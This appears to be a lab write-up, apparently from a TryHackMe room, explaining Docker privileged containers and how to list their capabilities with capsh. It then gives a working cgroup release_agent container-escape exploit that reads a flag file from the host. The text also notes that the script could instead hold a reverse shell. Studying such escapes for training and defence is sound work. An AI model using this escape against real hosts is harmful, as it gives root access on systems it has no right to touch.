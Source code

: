 * User (Normal) mode
    
* Privileged mode
    

In the diagram below, we can see the two different modes in action and the level of access each mode has to the host:

![Illustrating the different container modes and privileges and the level of access they have to the operating system.](https://assets.tryhackme.com/additional/docker-rodeo/privileged-container/privileged-container-layers.png align="left")

Note how containers #1 and #2 are running in "user/normal" mode, whereas container #3 is running in "privileged" mode. Containers in "user" mode interact with the operating system through the Docker Engine. Privileged containers, however, do not do this. Instead, they bypass the Docker Engine and directly communicate with the operating system.

What Does This Mean for Us

Well, if a container is running with privileged access to the operating system, we can effectively execute commands as root on the host.

We can use a utility such as `capsh` which comes with the *libcap2-bin* package to list the capabilities our container has: `capsh --print` . Capabilities are used in Linux to assign specific permissions to a process. Listing the capabilities of the container is a good way to determine the syscalls that can be made and potential mechanisms for exploitation.

Some capabilities of interest have been provided in the terminal snippet below.

Listing capabilities of a privileged Docker Container

```bash
capsh --print 
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1730985302593/832b7840-86c6-4a7e-bdd0-53d77d220fc6.png align="center")

In the example exploit below, we are going to use the *mount* syscall (as allowed by the container's capabilities) to mount the host's control groups into the container.

The code snippet below is based upon (but a modified) version of the [Proof of Concept (PoC) created by Trailofbits](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/#:~:text=The%20SYS_ADMIN%20capability%20allows%20a,security%20risks%20of%20doing%20so.), which details the inner workings of this exploit well.

```bash
1. mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x

2. echo 1 > /tmp/cgrp/x/notify_on_release

3. host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`

4. echo "$host_path/exploit" > /tmp/cgrp/release_agent

5. echo '#!/bin/sh' > /exploit

6. echo "cat /home/cmnatic/flag.txt > $host_path/flag.txt" >> /exploit

7. chmod a+x /exploit

8. sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"

-------

Note: We can place whatever we like in the /exploit file (step 5). This could be, for example, a reverse shell to our attack machine.
```
